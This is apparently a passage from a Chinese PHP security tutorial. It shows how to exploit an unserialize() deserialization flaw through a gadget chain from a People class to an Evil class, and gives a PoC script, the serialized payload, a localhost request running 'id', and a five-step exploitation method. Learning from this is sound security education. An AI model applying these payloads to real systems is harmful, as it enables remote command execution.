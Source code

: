 ```php
```

先分析下代码，$_GET\['str'\] 获取 get 参数 str 值，然后传递给 unserialize 进行反序列化操作，这就是导致漏洞的地方。

那么我们该如何利用呢？审查整份代码，发现 Evil 类中的命令执行方法 run()，如果能控制其中的 $cmd 变量就可以实现远程命令执行。在 People 类的 __construct 方法中有属性赋值操作，将 Student 对象赋值给 $type 属性。

同时，在 __destruct 方法中有调用 run() 方法的操作，因此我们可以设法此这些操作关联起来，写出利用代码去生成用来实现命令执行的序列化字符串。

poc.php 利用代码如下：

```php
<?php
  class People {
    private $type;

    function __construct(){
      $this->type = new Evil();
    }
  }
  class Evil {
    var $cmd = 'id';
  }
  $people = new People();
  $str = serialize($people);
  echo $str;
?>
```

运行生成序列化字符串：

```java
$ php poc.php
O:6:"People":1:{s:12:"Peopletype";O:4:"Evil":1:{s:3:"cmd";s:2:"id";}}
```

里面的 "Peopletype" 又被吃掉 \\x00 了，得补回去，然后将上述字符串作为 get 参数 $str 的值发送给 vul.php：

```java
http://127.0.0.1/vul.php?str=O:6:%22People%22:1:{s:12:%22%00People%00type%22;O:4:%22Evil%22:1:{s:3:%22cmd%22;s:2:%22id%22;}}
```

<Image alt="Lark20210121-180531.png" src="https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUtSAOq4oAAFC9pGx2M8332.png"/>  
图 1 成功利用反序列化漏洞执行任意命令

总结下利用思路：

1. 寻找原程序中可利用的目标方法，比如包含 system、eval、exec 等危险函数的地方，正如示例中的 Evil 类；

2. 追踪调用第 1 步中方法的其他类方法/函数，正如示例中 People 类方法 __destruct()；

3. 寻找可控制第 1 步方法的参数的其他类方法函数，正如示例中 People 类方法 __construct()；

4. 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串；

5. 将生成的序列化字符串传递给漏洞参数实现利用。
